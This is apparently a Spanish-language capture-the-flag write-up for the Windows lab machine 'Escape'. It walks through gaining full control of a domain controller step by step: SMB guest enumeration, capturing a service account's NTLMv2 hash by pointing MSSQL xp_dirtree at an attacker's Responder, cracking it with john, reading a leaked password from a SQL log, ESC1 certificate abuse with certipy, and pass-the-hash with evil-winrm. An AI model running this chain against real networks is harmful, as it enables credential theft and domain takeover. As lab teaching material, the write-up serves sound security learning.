

# Resolución maquina Escape

**Autor:** PepeMaquina  
**Fecha:** 31 de octubre de 2025  
**Dificultad:** Medio  
**Sistema Operativo:** Windows  
**Tags:** Mssql, logs, ADCS.

---
## Imagen de la Máquina

*Imagen: escape.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.202 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49709,49720 10.10.11.202 -oN targeted
~~~
### Enumeración de Servicios
~~~bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-01 00:13:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-11-01T00:15:12+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-11-01T00:15:12+00:00; +8h00m01s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-11-01T00:11:29
|_Not valid after:  2055-11-01T00:11:29
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-11-01T00:15:12+00:00; +8h00m00s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-11-01T00:15:12+00:00; +8h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-11-01T00:15:12+00:00; +8h00m01s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-11-01T00:14:35
|_  start_date: N/A
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 7h59m59s
~~~
Con esta enumeración se puede ver que pertenece a un entorno AD, de ello lo mas relevante seria ver los recursos compartidos y el servicio mssql, pero primero se necesita saber la direccion del dominio y la maquina DC.
### Enumeración de nombre del dominio
En este apartado, se realizó la enumeración del nombre de dominio y host con la herramienta netexec y credenciales nulas.
~~~ bash
sudo netexec smb 10.10.11.202 -u '' -p ''                                                             
[sudo] password for kali: 
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\: 
~~~
Con ello ya guardamos la ip y el dominio con su respectivo host
~~~ bash
cat /etc/hosts
127.0.0.1       localhost
10.10.11.72 sequel.htb dc.sequel.htb dc
~~~

### Listado de recursos compartidos
Lo primero que se enumera son los recursos compartidos a los que se puede acceder, para ello siempre se prueban tanto credenciales nulas como credenciales guest.
~~~bash
sudo netexec smb 10.10.11.202 -u '' -p '' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\: 
SMB         10.10.11.202    445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
~~~
Como se puede ver, con credenciales nulas no se puede obtener nada, ahora probando guest.
~~~bash
sudo netexec smb 10.10.11.202 -u 'asd' -p '' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\asd: (Guest)
SMB         10.10.11.202    445    DC               [*] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark
SMB         10.10.11.202    445    DC               -----           -----------     ------
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.202    445    DC               C$                              Default share
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.202    445    DC               Public          READ            
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share
~~~
Se puede ver que se tiene acceso a un directorio "Public", por lo que se debe ver que lleva dentro.
~~~bash
smbclient -U 'asd' //10.10.11.202/Public 
Password for [WORKGROUP\asd]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

                5184255 blocks of size 4096. 1439056 blocks available 
smb: \> mask ""
smb: \> prompt off
smb: \> mget *
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (44.2 KiloBytes/sec) (average 44.2 KiloBytes/sec)
smb: \> exit
~~~
Se pudo ver un archivo "SQL Server Procedures.pdf" que se descargo.
Ahora se debe ver que contiene, porque toda información es útil, para esto se puede utilizar cualquier herramienta, en este caso yo utilizare libreoffice.
Dentro del pdf menciona cosas sobre sql server (un servicio que esta abierto en el dominio), pero muestra un usuario y una contraseña que es lo interesante.

En este caso, anoto dichas credenciales para probarlas en el servicio mssql.
~~~bash
impacket-mssqlclient 'sequel.htb/PublicUser@10.10.11.202'              
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.11.202\smb
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)>
~~~
Efectivamente, se tuvo acceso a mssql.

### Aprovechando servicio mssql
En este caso, casi siempre lo que se puede probar es abrir un servicio smb (con el "responder") desde mi maquina atacante y desde mssql enviar una solicitud, de esta forma se puede obtener el hash de la cuenta que corre el servicio (siempre y cuando este mal configurado).
Por lo que se procede a abrir "Responder" desde mi maquina.
~~~bash
sudo responder -I tun0                                       
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Responder IPv6             [dead:beef:2::1003]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-FZWKMXYJO9U]
    Responder Domain Name      [DISN.LOCAL]
    Responder DCE-RPC Port     [46990]

[+] Listening for events...
~~~
Y al momento de intentar conectarme a mi ip, se logra obtener un hash del usuario  sql_svc que parece ser una cuenta de servicio.
~~~bash
------------   -----   ----   
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.14.5\smb
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)> exit
~~~
Obteniendo 
~~~bash
[SMB] NTLMv2-SSP Client   : 10.10.11.202
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:12d15f2c0d077517:099EDE2356D394125741D74960839A0D:0101<SNIP>0000
~~~
En este caso primero coloco el hash en un archivo e intento descifrarlo con john.
~~~bash
sudo john hash_sql_svc --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REG<SNIP>nnie (sql_svc)     
1g 0:00:00:06 DONE (2025-10-31 12:27) 0.1636g/s 1751Kp/s 1751Kc/s 1751KC/s RENZOJAVIER..REDMAN69
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
~~~
En esta ocacion si se pudo descifrar la contraseña, asi que se puede acceder al servicio, pero en mi mente se me ocurre primero probar si tiene acceso a winrm para poder ver todo su contenido.
~~~bash
evil-winrm -i 10.10.11.202 -u sql_svc -p 'REG<SNIP>nie'                    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
~~~
Por buena fortuna si tiene acceso a winrm, ya dentro primero enumero algunos permisos para ver que podria aprovechar, pero no veo nada, luego veo que usuarios existen.
~~~powershell
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:58 AM                Administrator
d-r---        7/20/2021  12:23 PM                Public
d-----         2/1/2023   6:37 PM                Ryan.Cooper
d-----         2/7/2023   8:10 AM                sql_svc
~~~
Al parecer necesito saltar al usuario "Ryan.Cooper" para tener la user flag.

### Salto al usuario Ryan.Cooper
Tras realizar la enumeración manual, se puede ver que tiene un directorio no muy comun dentro de la raiz.
~~~powershell
*Evil-WinRM* PS C:\> ls

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
d-----         2/6/2023   7:21 AM                Windows
~~~
Entrando al directorio "SQLServer" se puede ver un directorio "logs" que llama la atención.
~~~powershell
*Evil-WinRM* PS C:\sqlserver> ls

    Directory: C:\sqlserver

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:06 AM                Logs
d-----       11/18/2022   1:37 PM                SQLEXPR_2019
-a----       11/18/2022   1:35 PM        6379936 sqlexpress.exe
-a----       11/18/2022   1:36 PM      268090448 SQLEXPR_x64_ENU.exe
~~~
Asi que entrando en el se ve un archivo .bak e inspeccionando su interior se ven un intento de sesion como "usuario" que parece ser mas una contraseña.
~~~powershell
*Evil-WinRM* PS C:\sqlserver\logs> ls

    Directory: C:\sqlserver\logs

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK

*Evil-WinRM* PS C:\sqlserver\logs> type Errorlog.bak
2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
        Sep 24 2019 13:48:23
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

2022-11-18 13:43:05.97 Server      UTC adjustment: -8:00
2022-11-18 13:43:05.97 Server      (c) Microsoft Corporation.
2022-11-18 13:43:05.97 Server      All rights reserved.
2022-11-18 13:43:05.97 Server      Server process ID is 3788.
2022-11-18 13:43:05.97 Server      System Manufacturer: 'VMware, Inc.', System Model: 'VMware7,1'.
2022-11-18 13:43:05.97 Server      Authentication mode is MIXED.
2022-11-18 13:43:05.97 Server      Logging SQL Server messages in file 'C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\Log\ERRORLOG'.
2022-11-18 13:43:05.97 Server      The service account is 'NT Service\MSSQL$SQLMOCK'. This is an informational message; no user action is required.
2022-11-18 13:43:05.97 Server      Registry startup parameters:
         -d C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\master.mdf
         -e C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\Log\ERRORLOG
         -l C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\mastlog.ldf
2022-11-18 13:43:05.97 Server      Command Line Startup Parameters:
         -s "SQLMOCK"
         -m "SqlSetup"
         -Q
         -q "SQL_Latin1_General_CP1_CI_AS"
         -T 4022
         -T 4010
         -T 3659
         -T 3610
         -T 8015
2022-11-18 13:43:05.97 Server      SQL Server detected 1 sockets with 1 cores per socket and 1 logical processors per socket, 1 total logical processors; using 1 logical processors based on SQL Server licensing. This is an informational message; no user action is required.
......
<SNIP>
......
2022-11-18 13:43:07.44 spid51      Changed database context to 'master'.
2022-11-18 13:43:07.44 spid51      Changed language setting to us_english.
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
......
<SNIP>
......
~~~
Lo que se puede sacar de esto es que parece existir efectivamente el usuario "Ryan.Cooper" y su posible contraseña sea "NuclearMosquito3". 
Entonces probando estas credenciales para iniciar sesion por winrm.
~~~bash
evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'              
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents>
~~~
Si se pudo obtener acceso, bastante simple de deducir a mi critetio.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al usuario ryan, se puede ver que este presenta la user flag, asi que vamos por buen camino.
~~~ 
*Evil-WinRM* PS C:\Users\Ryan.Cooper> tree /f
Folder PATH listing
Volume serial number is EB33-4140
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
³   ³   Bing.url
³   ³
³   ÀÄÄÄLinks
ÃÄÄÄLinks
³       Desktop.lnk
³       Downloads.lnk
³
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\Ryan.Cooper> cd desktop
*Evil-WinRM* PS C:\Users\Ryan.Cooper\desktop> type user.txt
<Encuentre su propia USER FLAG>
~~~

---
## Escalada de Privilegios

### Escalada de Privilegios
Para la escalada de privilegios se realizo enumeración manual, pero no se pudo encontrar nada interesante.
Pasando a realizar una enumeración automatizada con herramientas como adpeas, se mostro que existen certificados contemplados en el dominio, por lo que voy en busca de certificados vulnerables.
~~~bash
certipy-ad find -u 'Ryan.cooper'@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sequel-DC-CA'
[*] Checking web enrollment for CA 'sequel-DC-CA' @ 'dc.sequel.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2022-11-18T21:10:22+00:00
    Template Last Modified              : 2024-01-19T00:26:38+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
~~~
Efectivamente se puede ver que existe un certificado vunlerable, esto proporciona una escalada ESC1.

### Escalada ESC1 y acceso a administrator
Para la mayoria de escaladas se puede encontrar la forma de vulnerarlo mediante una busqueda en internet, o lo mas fiable que encuentro es ir al repositorio del gran "ly4k" (https://github.com/ly4k/Certipy/wiki/06-%e2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu).
Aca se puede ver claramente la forma de escalar, es bastante facil.
Primero se pide el certificado pero esperando impersonar al administrator, asi colocando su nombre como "upn" y esperando obtener su clave pfx
~~~bash
certipy-ad req -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip '10.10.11.202' -target 'dc.sequel.htb' -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'administrator@sequel.htb'                        
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
~~~
Efectivamente se obtuvo la clave pfx del usuario administrator, ahora solo es cosa de obtener su hash NTLM con la misma herramienta.
Pero sin antes sincronizar el reloj con el servidor porque el servicio kerberos es muy estricto con ello.
~~~bash
sudo ntpdate -u 10.10.11.202                                          
[sudo] password for kali: 
2025-10-31 20:43:51.863857 (-0400) +28800.539258 +/- 0.104272 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28800.539258
~~~
Ahora si impersonar al adminsitrator.
~~~bash
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.202'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f<SNIP>4ee
~~~
Obteniendo asi su hash NTLM.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con esto ya solo queda usar evil-winrm con el hash de administrator y entrar sin complicaciones.
~~~powershell
evil-winrm -i 10.10.11.202 -u administrator -H 'a52<SNIP>4ee'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
~~~
Para ahora solamente leer el root.txt
~~~powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
<ENCUENTRE SU PROPIA ROOT FLAG>
~~~
🎉 Sistema completamente comprometido - Root obtenido

